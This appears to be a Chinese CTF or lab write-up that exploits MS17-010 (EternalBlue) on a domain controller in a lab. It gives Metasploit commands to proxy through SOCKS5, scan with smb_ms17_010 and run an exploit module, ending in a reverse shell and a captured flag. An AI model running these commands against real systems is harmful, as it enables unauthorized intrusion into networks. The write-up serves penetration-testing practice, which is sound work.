







## 前言

本文是在8086那篇文章已经搭建好代理的情况下进行的

## 漏洞扫描

利用web01上的fscan对DC主机进行扫描，发现疑似存在MS17-010漏洞



进入MSF，设置全局代理以及反向允许

```
setg Proxies socks5:127.0.0.1:46075
set ReverseAllowProxy true 
```

选取探测模块

```
use auxiliary/scanner/smb/smb_ms17_010
set rhost 172.22.10.11
```



可以看到探测模块显示该靶机好像存在永恒之蓝漏洞

接下来进一步攻击

## MS17-010

```
search ms17-010
use 10
```

注意这里不要选取第0个模块，经过我的尝试使用他会导致靶机直接蓝屏



这里用第10个



配置如图



可以看到反弹成功，不用提权



直接就能读取到Admin目录下的flag


